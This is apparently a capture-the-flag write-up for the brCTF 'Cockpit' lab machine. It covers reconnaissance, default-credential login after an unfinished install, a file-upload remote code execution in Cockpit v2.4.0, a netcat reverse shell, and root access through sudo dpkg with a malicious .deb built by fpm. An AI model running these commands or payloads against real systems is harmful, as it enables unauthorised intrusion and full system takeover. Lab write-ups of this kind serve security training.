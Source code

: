 # Cockpit Machine from brCTF

## Information Gathering/Reconnaissance
As usual we fire up our favorite network mapper (nmap) and perform some basic recon. We can see that we have only port 80 (http) open.
`nmap -sC -sV -oN cockpit.nmap 10.0.160.145`
```
Nmap scan report for 10.0.160.145
Host is up (0.24s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-title: Cockpit
|_Requested resource was /auth/login?to=%2F

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second stage of out recon we checkout the application running on port `80` from our browser. <br>
We are greeted with a homepage.... interesting!
![Cockpit Homepage](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/homepage.png "a title")

Next we try to find out what other pages are available on our target. We employ the servies of our directory bruteforcing tool (feroxbuster) or an other webfuzzer. <br>
`feroxbuster -u http://10.0.160.145 -w /raft-medium-wordlists.txt`
```
302      GET        0l        0w        0c http://10.0.160.145/ => http://10.0.160.145/auth/login?to=%2F
302      GET        0l        0w        0c http://10.0.160.145/system => http://10.0.160.145/auth/login?to=%2Fsystem
400      GET        7l       11w      157c http://10.0.160.145/!%22%C2%A3$%^
302      GET        0l        0w        0c http://10.0.160.145/?????? => http://10.0.160.145/auth/login?to=%2F%3F%253F%253F%253F%253F%253F%3D
400      GET        7l       11w      157c http://10.0.160.145/100%sexy
400      GET        7l       11w      157c http://10.0.160.145/100%angel
400      GET        7l       11w      157c http://10.0.160.145/100%bitch
400      GET        7l       11w      157c http://10.0.160.145/100%me
400      GET        7l       11w      157c http://10.0.160.145/100%cute
400      GET        7l       11w      157c http://10.0.160.145/100%love
400      GET        7l       11w      157c http://10.0.160.145/!%22%C2%A3$%^&*()
302      GET        0l        0w        0c http://10.0.160.145/content => http://10.0.160.145/auth/login?to=%2Fcontent
400      GET        7l       11w      157c http://10.0.160.145/100%cool
301      GET        7l       11w      169c http://10.0.160.145/install => http://10.0.160.145/install/
404      GET        0l        0w        0c http://10.0.160.145/austin101
```

## Exploitation
Something interesting the results above. We find a `/install` endpoint. <br>
After visiting this page in the browser we realized that the system administrator setup cockpit application without fully installing. Nice! we can abuse this. <br> After visiting this endpoint cockpit will be installed and will setup an account with default logins.
![Cockpit Install Page](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/install_the_software.png "a title")

Using the default logins obtained on installation we can login to the cockpit application.
![Cockpit Login Page](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/login_with_default_creds.png "a title")

Successful Login attempt and we a greeted with the application dashboard. From there we can do a little recon to find out the version of cockpit running. From the image below, `cockpit v2.4.0` is found to be running.
![Cockpit Dashboard Page](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/cockpit_version_info.png "a title")

As a hacker google should be one of your cherished tools. Using the google search engine we can search for publicly available exploit for `cockpit v2.4.0`. <br> We find a publicly disclosed exploitation process [here](https://huntr.dev/bounties/f73eef49-004f-4b3b-9717-90525e65ba61/).
![Public Exploit](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/google_vuln.png "a title")

From the steps provided on the [website](https://huntr.dev/bounties/f73eef49-004f-4b3b-9717-90525e65ba61/).
1. We must first craft out malicious php script.
![exploit code](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/exploit_code.png "a title")

2. Head over to the assest page on cockpit and upload our malicious php script.
![uploading asset](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/asset_upload.png "a title")
![uploading php script](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/uploading_php_script.png "a title")

3. Click on the options icons after fully uploding the asset and select `copy asset link` from the popup.
![uploading php script](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/asset_options.png "a title")

4. Open a new browser tab and paste the link there. Hold up! one last thing to do before execution. After pasting the link remove `/http:` from the url and now you can execute.

Finally! we now have RCE on the target and we can get a shell on netcat.<br>
We first start by running our netcat listener.
`nc -lnvp 8989`
![uploading php script](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/listening_on_netcat.png "a title")

Now we can send execute command on our malicious php web page to get a shell on our listener.<br>
![netcat payload shell](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/netcat_payload.png)

Boom we get a connection on our listener.
![netcat rev shell](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/recieved_nc_connection.png)

## Post Exploitation
Anytime we get a shell through netcat we obtain a dumb shell. A dump shell has very little functionality and therefore we need a stable shell. Shell Stabilization prevents you from killing your reverse shell and adds proper shell functionalities.

#### Shell stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>

## Privilege Escalation
We first check our privileges.
`sudo -l`
![PE vector](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/priv_escalation.png)

Doing a search on for dpkg on [gtfobins](https://gtfobins.github.io/gtfobins/dpkg/#sudo)
![gfobins](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/gtfobins_privesc.png)

Now the way this is going to work is that we would build a malcious debian package and then we try installing the package which will run our malicious code embedded in the package.<br>
Steps to building malicious package.
1. Install fpm: `sudo apt install ruby && sudo gem install fpm`
2. Build package with fpm: ```TF=$(mktemp -d) &&
echo 'exec /bin/sh' > $TF/x.sh &&
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF```
![mal deb package](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/creating_mal_packgae.png)

We now have our malicious package on our host and we can now transfer to our target.<br>
Start your python server: `python3 -m http.server 8000`
![python transfer](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/python_server_for_mal_package.png)

Download the malicious package on your target.<br>
NB: Make sure you are in a writable directory like `/tmp`. <br>

![python transfer download](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/downloading_mal_package_from_attacker_server.png) 

Now we can execute and get root access.<br>
![execute code](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/exec_command_priv_root.png)<br>
We are now root!!! :smiley: <br>
![iamroot](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/i_am_root.png)